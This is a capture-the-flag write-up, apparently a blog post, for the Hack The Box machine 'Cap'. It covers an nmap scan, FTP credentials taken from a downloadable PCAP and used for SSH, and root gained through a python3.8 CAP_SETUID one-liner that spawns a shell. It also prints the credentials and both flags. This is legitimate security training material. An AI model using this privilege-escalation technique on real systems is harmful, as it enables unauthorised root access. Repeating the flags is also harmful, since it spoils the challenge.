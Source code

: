 ```yaml
---
layout: post
title: HTB-Cap
date: 2025-09-21
tags: [HTB]
category: [CTF-Writeups]
---
```


# HTB — CAP: Quick Writeup

**IP:** `10.10.10.245`  
**Difficulty:** Easy  
**Skills:** enumeration • HTTP/PCAP analysis • SSH access • local privilege escalation

> **Summary:** Ports 21/22/80 were open. A downloadable PCAP from the web app contained FTP credentials (`nathan:Buck3tH4TF0RM3!`), allowing SSH access as `nathan` to capture the user flag. Root was obtained by abusing file capabilities on `/usr/bin/python3.8`.

---

## Table of contents
1. [Recon (nmap)](#recon-nmap)  
2. [User: web & PCAP analysis](#user-web--pcap-analysis)  
3. [Root: privilege escalation](#root-privilege-escalation)  
4. [Flags](#flags)  
5. [Mitigations & notes](#mitigations--notes)  
6. [References / tools](#references--tools)

---

## Recon (nmap)

**Command used**

```bash
nmap 10.10.10.245
```

**Result**

``` bash
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
```


---

## User — web & PCAP analysis

### Steps
1. Open: `http://10.10.10.245/`  
2. Click **Security Snapshot** → redirected to `/data/11`  
3. Visit `/data/0` and **Download** the PCAP 
4. Inspect the PCAP to find FTP credentials  
5. SSH in with found credentials and retrieve the user flag

### PCAP inspection (examples)
Use Wireshark:

Wireshark display filter:

```bash
ftp || ftp-data
```


**Credentials found**
- **User:** `nathan`  
- **Password:** `Buck3tH4TF0RM3!`

**SSH in**

```bash
ssh nathan@10.10.10.245
# password: Buck3tH4TF0RM3!
```

**User flag**

```bash
cat /home/nathan/user.txt
# e69b72870c3be895f01d4255f15d16cd
```

---

## Root — privilege escalation

### Discovery
Run linPEAS to search for local privilege escalation vectors:

linPEAS showed:

```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```


This indicates `python3.8` has `CAP_SETUID`, allowing it to call `setuid(0)`.

### Exploit (one-liner)

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

**Verify root**

```bash
id
# uid=0(root) gid=0(root) groups=0(root)

cat /root/root.txt
# 7d7c67f7ee617a0a28ec5545cb9a75e2
```

---

## Flags

- **User:** `e69b72870c3be895f01d4255f15d16cd`  
- **Root:** `7d7c67f7ee617a0a28ec5545cb9a75e2`

---

*This writeup documents a CTF box and is for educational purposes only. Do not perform these actions against systems you do not own or have permission to test.*